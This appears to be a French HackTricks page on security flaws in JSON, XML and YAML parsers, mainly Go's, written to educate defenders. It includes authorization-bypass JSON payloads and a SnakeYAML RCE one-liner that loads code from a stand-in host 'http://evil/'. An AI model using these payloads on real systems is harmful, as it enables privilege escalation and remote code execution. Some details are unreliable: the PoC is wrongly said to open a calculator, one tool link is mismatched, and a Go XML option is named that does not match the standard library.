 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Décodeur JSON Go

Les problèmes suivants ont été détectés dans le Go JSON bien qu'ils puissent également être présents dans d'autres langages. Ces problèmes ont été publiés dans [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Les parseurs JSON, XML et YAML de Go présentent une longue série d'incohérences et de valeurs par défaut non sécurisées qui peuvent être exploitées pour **bypass authentication**, **escalate privileges**, ou **exfiltrate sensitive data**.


### (Un)Marshaling Données inattendues

L'objectif est d'exploiter des structs qui permettent à un attaquant de lire/écrire des champs sensibles (par ex., `IsAdmin`, `Password`).

- Exemple de struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnérabilités courantes

1. **Tag manquant** (no tag = le champ est encore analysé par défaut):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Utilisation incorrecte de `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Façon correcte d'empêcher qu'un champ soit (dé)sérialisé :
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Différences entre parseurs

Le but est de contourner l'autorisation en exploitant la façon dont différents parseurs interprètent différemment le même payload, par exemple :
- CVE-2017-12635: Apache CouchDB bypass via clés dupliquées
- 2022: Zoom 0-click RCE via incohérence du parser XML
- GitLab 2025 SAML bypass via particularités XML


**1. Champs dupliqués :**
Le `encoding/json` de Go prend le champ **dernier**.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
D'autres parseurs (par ex., Java’s Jackson) peuvent prendre le **premier**.

**2. Insensibilité à la casse:**
Go est insensible à la casse:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Même les astuces Unicode fonctionnent :
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
Imaginez :
- Proxy written in Go
- AuthZ service written in Python

L'attaquant envoie :
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python voit `UserAction`, l'autorise
- Go voit `AdminAction`, l'exécute


### Confusion de formats de données (Polyglots)

Le but est d'exploiter des systèmes qui mélangent des formats (JSON/XML/YAML) ou qui restent permissifs en cas d'erreurs du parseur, par exemple :
- **CVE-2020-16250** : HashiCorp Vault a analysé du JSON avec un parseur XML après que STS ait renvoyé du JSON au lieu de XML.

L'attaquant contrôle :
- L'en-tête `Accept: application/json`
- Contrôle partiel du corps JSON

Le parseur XML de Go l'a **quand même** analysé et a fait confiance à l'identité injectée.

- Payload conçu :
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Résultat :
- **Go JSON** parseur : `Action_2` (insensible à la casse + la dernière valeur l'emporte)
- **YAML** parseur : `Action_1` (sensible à la casse)
- **XML** parseur : analyse `"Action_3"` à l'intérieur de la chaîne

---

## Vulnérabilités notables des parseurs (2023-2025)

> Les problèmes publiquement exploitables ci‑dessous montrent que l'analyse non sécurisée est un problème multilingue — pas seulement un problème Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Affecte : `org.yaml:snakeyaml` < **2.0** (utilisé par Spring-Boot, Jenkins, etc.).
* Cause racine : `new Constructor()` désérialise **des classes Java arbitraires**, permettant des chaînes de gadgets qui culminent en exécution de code à distance.
* PoC en une ligne (ouvrira la calculatrice sur l'hôte vulnérable) :
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Correctif / Atténuation :
1. **Mettre à niveau vers ≥2.0** (utilise `SafeLoader` par défaut).
2. Sur les versions plus anciennes, utilisez explicitement `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Affecte : `libyaml` ≤0.2.5 (bibliothèque C utilisée par de nombreux bindings).
* Problème : Appeler `yaml_event_delete()` deux fois conduit à un double-free que des attaquants peuvent transformer en DoS ou, dans certains scénarios, en exploitation du heap.
* Statut : L'amont a rejeté comme un « API misuse », mais les distributions Linux ont livré la version corrigée **0.2.6** qui met le pointeur à NULL avant de le libérer de façon défensive.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Affecte : Tencent **RapidJSON** avant le commit `8269bc2` (<1.1.0-patch-22).
* Bug : Dans `GenericReader::ParseNumber()` des calculs non vérifiés permettent à des attaquants de fabriquer des littéraux numériques énormes qui débordent et corrompent le heap — finissant par permettre une escalation de privilèges lorsque le graphe d'objets résultant est utilisé pour des décisions d'autorisation.

---

### 🔐 Atténuations (Mises à jour)

| Risque                              | Correctif / Recommandation                                |
|-------------------------------------|------------------------------------------------------------|
| Champs inconnus (JSON)              | `decoder.DisallowUnknownFields()`                          |
| Champs dupliqués (JSON)             | ❌ Pas de correctif dans la stdlib — valider avec [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Correspondance insensible à la casse (Go) | ❌ Pas de correctif — valider les struct tags + pré-canoniser l'entrée |
| Données XML indésirables / XXE      | Utiliser un parseur durci (`encoding/xml` + `DisallowDTD`) |
| Clés YAML inconnues                 | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Utiliser SafeConstructor / mettre à niveau vers SnakeYAML ≥2.0 |
| libyaml ≤0.2.5 double-free          | Mettre à jour vers **0.2.6** ou version distro-patchée    |
| RapidJSON <patched commit           | Compiler contre la dernière version de RapidJSON (≥juillet 2024) |

## Voir aussi

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Références

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
